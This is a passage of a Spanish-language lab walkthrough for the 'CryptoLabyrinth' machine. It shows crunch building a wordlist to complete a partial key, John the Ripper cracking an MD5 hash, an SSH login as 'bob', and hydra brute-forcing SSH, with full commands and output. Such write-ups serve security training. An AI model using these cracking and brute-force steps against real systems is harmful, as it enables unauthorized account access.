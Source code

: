 Tratando de crackearlo con **JohnTheRipper** no dará ningún resultado, y al intentar usar el **salt** que encontramos tampoco va a funcionar.

Pero si recordamos, al principio encontramos una clave oculta en el código fuente de la página web activa.

El problema es que le faltan 2 caracteres, por lo que debemos crear un wordlist que los rellene y eso lo podemos hacer con la herramienta **crunch**:
```bash
crunch 11 11 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 -t 2LWxmDsW0@@ -o wordlist.txt
Crunch will now generate the following amount of data: 46128 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 3844 

crunch: 100% completed generating output
```

E intentemos crackear ese hash faltante:
```bash
john -w:wordlist.txt bob_password5.hash --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=6
Press 'q' or Ctrl-C to abort, almost any other key for status
********      (?)     
1g 0:00:00:00 DONE (2025-06-23 13:53) 25.00g/s 43200p/s 43200c/s 43200C/s 2LWxmDsW0zl..2LWxmDsW0Ct
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
Funcionó.

Probemos si de casualidad es la contraseña del **usuario bob**:
```bash
ssh bob@192.168.10.140
bob@192.168.10.140's password: 
Linux TheHackersLabs-CryptoLabyrinth 6.1.0-26-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.112-1 (2024-09-30) x86_64
...
Last login: Mon Jun 23 21:04:14 2025
bob@TheHackersLabs-CryptoLabyrinth:~$ whoami
bob
```
Genial, estamos dentro.

También pudimos haber aplicado fuerza bruta al **servicio SSH** con ese wordlist:
```bash
hydra -l 'bob' -P wordlist.txt ssh://192.168.10.140 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-23 12:57:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 3721 login tries (l:1/p:3721), ~59 tries per task
[DATA] attacking ssh://192.168.10.140:22/
[STATUS] 474.00 tries/min, 474 tries in 00:01h, 3290 to do in 00:07h, 21 active
[STATUS] 296.67 tries/min, 890 tries in 00:03h, 2883 to do in 00:10h, 12 active
[22][ssh] host: 192.168.10.140   login: bob   password: ********
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 11 final worker threads did not complete until end.
[ERROR] 11 targets did not resolve or could not be connected
```